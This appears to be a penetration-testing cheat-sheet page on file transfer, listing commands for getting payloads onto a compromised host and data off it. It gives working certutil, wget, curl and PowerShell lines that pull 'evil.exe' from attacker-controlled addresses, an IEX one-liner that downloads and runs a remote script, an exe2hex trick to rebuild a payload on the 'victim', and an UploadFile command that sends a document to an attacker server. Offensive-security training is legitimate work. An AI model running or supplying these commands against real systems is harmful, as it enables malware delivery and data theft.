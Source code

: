 ```yaml
---
title: File Transfer
parent: General Usage
layout: default
nav_order: 17
---
```


## Download
1. Certutil:\
   `certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe`
2. Wget with directory set:\
   `wget -P /tmp http://IP/file`
3. Curl:\
   `curl http://attacker:3333/file -o /tmp/file`
4. Python server on attacker machine:\
   `python3 -m http.server 8000`
5. Powershell on target (single line):\
   `powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://IP/evil.exe', 'shell1.exe')`
6. Powershell on target (line by line):\
   `echo $webclient = New-Object System.Net.WebClient >>wget.ps1`\
   `echo $url = "http://10.11.0.4/evil.exe" >>wget.ps1`\
   `echo $file = "new-exploit.exe" >>wget.ps1`\
   `echo $webclient.DownloadFile($url,$file) >>wget.ps1`\
   `powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1`
7. Powershell (execute directly without download):\
   `powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/helloworld.ps1')`
8. UPX and Powershell (reconstruct instead of download):\
   attacker: `upx -9 evil.exe`\
   attacker: `exe2hex -x evil.exe -p evil.cmd`\
   attacker: `cat evil.cmd`\
   victim: copy the powershell command near the end of evil.cmd will recreate the evil.exe
9. TFTP (Windows XP/2003 and earlier default).\
   Kali: `atftpd --daemon --port 69 /tmp/tftp`, then `/etc/init.d/atftpd restart`\
   Victim: `tftp -i kaliIP GET/PUT file`

## Upload
1. Start Apache server (`sudo service apache2 start`), and then use `powershell (New-Object System.Net.WebClient).UploadFile('http://IP/upload321.php', 'important.docx')` to upload.
2. `scp -P port user@SRC_HOST:file1 user@DEST_HOST:file2`\
   (if copy to localhost no need put localhost, just use full path like /home/xxx/yyy)